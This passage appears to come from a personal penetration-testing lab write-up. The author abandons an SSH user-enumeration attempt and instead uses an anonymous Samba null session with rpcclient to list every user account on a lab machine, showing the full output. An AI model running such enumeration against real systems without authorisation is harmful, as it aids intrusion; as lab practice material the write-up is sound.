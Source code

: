 After running this for a while I decided to stop the scan, it's super slow and somehow didn't *feel* right.
I had a hunch that something might not be well with this approach and I know for a fact that a user on the target system is `msfadmin`. 
So tot test this out I created a new file including only this user name, ran the above with the new file but did not get a hit either 
so the above vunerability could not be exploited.

I really wanted to target all my effort on port 22 but i could figure out a way to enumerate the users via SSH so instead I decided to enumerate the users via a Samba vulnerability.
My target is running (from my previous scan)
    
    139/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
    
I know as a fact that Samba can be missconfigured to allow null sessions so I give it a try:
        
    # rpcclient -U "" 192.168.56.103
    Enter 's password: 
    rpcclient $>

This tells me that the machine is not configured properly so I run:

    rpcclient $> enumdomusers
    user:[games] rid:[0x3f2]
    user:[nobody] rid:[0x1f5]
    user:[bind] rid:[0x4ba]
    user:[proxy] rid:[0x402]
    user:[syslog] rid:[0x4b4]
    user:[user] rid:[0xbba]
    user:[www-data] rid:[0x42a]
    user:[root] rid:[0x3e8]
    user:[news] rid:[0x3fa]
    user:[postgres] rid:[0x4c0]
    user:[bin] rid:[0x3ec]
    user:[mail] rid:[0x3f8]
    user:[distccd] rid:[0x4c6]
    user:[proftpd] rid:[0x4ca]
    user:[dhcp] rid:[0x4b2]
    user:[daemon] rid:[0x3ea]
    user:[sshd] rid:[0x4b8]
    user:[man] rid:[0x3f4]
    user:[lp] rid:[0x3f6]
    user:[mysql] rid:[0x4c2]
    user:[gnats] rid:[0x43a]
    user:[libuuid] rid:[0x4b0]
    user:[backup] rid:[0x42c]
    user:[msfadmin] rid:[0xbb8]
    user:[telnetd] rid:[0x4c8]
    user:[sys] rid:[0x3ee]
    user:[klog] rid:[0x4b6]
    user:[postfix] rid:[0x4bc]
    user:[service] rid:[0xbbc]
    user:[list] rid:[0x434]
    user:[irc] rid:[0x436]
    user:[ftp] rid:[0x4be]
    user:[tomcat55] rid:[0x4c4]
    user:[sync] rid:[0x3f0]
    user:[uucp] rid:[0x3fc]
    